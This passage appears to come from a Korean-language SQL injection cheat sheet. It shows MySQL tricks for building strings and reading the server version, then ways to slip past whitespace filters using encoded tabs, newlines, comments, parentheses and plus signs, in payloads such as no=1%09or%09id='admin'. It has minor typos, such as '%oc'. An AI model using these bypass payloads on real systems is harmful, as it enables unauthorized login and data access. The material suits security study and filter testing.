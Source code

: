 ```sql
1 row in set (0.00 sec)
*/

mysql> select concat(char(0x61), char(0x62));
/*
+--------------------------------+
| concat(char(0x61), char(0x62)) |
+--------------------------------+
| ab                             |
+--------------------------------+
*/

mysql> select mid(@@version,12,1);
/*
+---------------------+
| mid(@@version,12,1) |
+---------------------+
| n                   |
+---------------------+
*/
```

공백 검사 우회

```sql
mysql> select
	-> 1;
/*
+---+
| 1 |
+---+
| 1 |
+---+
*/

mysql> select/**/1;
/*
+---+
| 1 |
+---+
| 1 |
+---+
*/

Tab : %09
no=1%09or%09id='admin'
 
Line Feed (\n) : %0a
no=1%0aor%0aid='admin'

Carrage Return (\r) : %0d
no=1%0dor%0did='admin'

vertical tab (\v) : %0b
form feed (\f) : %oc

괄호 : ()
no=(1)or(id='admin')

더하기 : +
no=1+or+id='admin'
MySQL에서 문자열 연결로 해석되지 않기 때문에 일반적으로 사용불가 

백틱 : `
```